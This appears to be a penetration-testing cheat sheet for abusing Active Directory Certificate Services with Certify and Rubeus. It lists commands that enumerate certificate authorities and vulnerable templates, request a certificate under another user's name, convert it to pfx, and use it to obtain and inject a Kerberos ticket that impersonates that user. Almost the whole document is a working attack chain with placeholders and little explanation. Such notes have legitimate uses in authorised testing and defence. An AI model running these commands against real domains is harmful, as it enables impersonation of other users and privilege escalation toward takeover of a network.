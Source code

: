 ### Source
https://github.com/GhostPack/Certify  
https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Certify.ps1  

### List certificate authorities
```
Certify.exe cas
```

### Get information about certificate environment and find vulnerable certificates (enrollment rights)
```
Certify.exe find /vulnerable
Invoke-Certify find /vulnerable
```

### Request certificate (altUser is the user to impersonate) - use /machine to switch into the current machine context
```
Certify.exe request /ca:"<fqdnCertificateServer>" /template:"<templateName>" /altname:"<altUser>"
```

### Convert pem file to pfx file using linux
```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out <file>.pfx
```

### Impersonate user
```
Rubeus.exe asktgt /user:<altUser> /certificate:<file>.pfx /ptt
```

